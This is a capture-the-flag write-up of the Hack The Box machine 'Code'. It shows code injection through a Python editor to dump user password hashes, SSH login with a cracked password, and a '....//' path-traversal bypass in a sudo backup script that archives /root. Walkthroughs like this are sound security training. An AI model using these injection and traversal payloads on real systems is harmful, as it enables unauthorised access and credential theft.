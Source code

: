 ```yaml
---
clayout: ctf
title: Code
date: 2025-05-14
image: /ctf/hack-the-box/machines/code/info-card.png
type: Hack The Box
ctf:
    - name: Code
      link: https://app.hackthebox.com/machines/653
      thumbnail: /ctf/hack-the-box/machines/code/info-card.png
      pwned:
        - link: https://www.hackthebox.com/achievement/machine/585215/653
          thumbnail: /ctf/hack-the-box/machines/code/pwned.png
---
```


# Enumeration

## Network Scanning

We perform a scan to identify open ports and services:

```bash
nmap -sC -sV -v -A -p- -oN nmap.txt 10.10.11.62
```

**Scan Results:**

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b5b97cc4503295bcc26517df51a27abd (RSA)
|   256 94b525549b68afbe40e11da86b850d01 (ECDSA)
|_  256 128cdc97ad8600b488e229cf69b56596 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: gunicorn/20.0.4
```

**Summary of Open Ports:**

| Port     | Service | Version         |
| -------- | ------- | --------------- |
| 22/tcp   | SSH     | OpenSSH 8.2p1   |
| 5000/tcp | HTTP    | Gunicorn 20.0.4 |

## Web Enumeration

Navigating to `http://10.10.11.62:5000` revealed a custom Python code editor interface.

![Python Code Editor](/ctf/hack-the-box/machines/code/python-code-editor.png)

Using `Wappalyzer`, we identified the following client-side technology:

* **Ace Editor**: Version 1.4.12

![Wappalyzer Output](/ctf/hack-the-box/machines/code/wappalyzer.png)

### Code Injection for Environment Enumeration

Through the code execution interface, we executed the following payload to inspect the global environment:

```python
raise Exception(globals())
```

This revealed the presence of a `User` class:

```python
'User': <class 'app.User'>,
```

We used SQLAlchemy-style enumeration to extract user credentials from the database:

```python
for user in User.query.all():
    print(user.username, user.password)
```

**Extracted Credentials:**

```
development 759b74ce43947f5f4c91aeddc3e5bad3
martin      3de6f30c4a09c27fc71932bfc68474be
```

Cracking the hash for `martin` using CrackStation:

```
martin: nafeelswordsmaster
```

### SSH Access

Using the recovered credentials, we established an SSH session:

```bash
ssh martin@10.10.11.62
```

Access was successfully obtained as the user `martin`.

# Privilege Escalation

## Sudo Rights Enumeration

We identified a `sudo` rule allowing passwordless execution of a backup script:

```bash
sudo -l
```

```bash
User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

### Analysis of `/usr/bin/backy.sh`

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

Key behaviors:

* Accepts a JSON file containing backup parameters.
* Enforces path sanitization to prevent directory traversal using `gsub("\\.\\./"; "")`.
* Restricts backups to directories under `/var/` and `/home/`.

**JSON Validation Example:**

```json
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": false,
  "directories_to_archive": [
    "/home/app-production/app"
  ],
  "exclude": [".*"]
}
```

## Exploiting Path Traversal

Despite sanitization, the script improperly handles crafted path traversal sequences such as `....//`, which bypasses the filter.

**Malicious JSON Payload:**

```json
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root/",
    "/home/app-production"
  ],
  "exclude": []
}
```

![Path Traversal Execution](/ctf/hack-the-box/machines/code/path-traversal.png)

After executing the script with the payload:

```bash
sudo /usr/bin/backy.sh /home/martin/backups/task.json
```

Backup archives were generated:

```bash
tar -jxvf code_home_app-production_2025_May.tar.bz2
tar -jxvf code_var_.._root_2025_May.tar.bz2
```

**Recovered Flags:**

* **User Flag**: Located in `/home/martin/backups/home/app-production`
* **Root Flag**: Located in `/home/martin/backups/root`
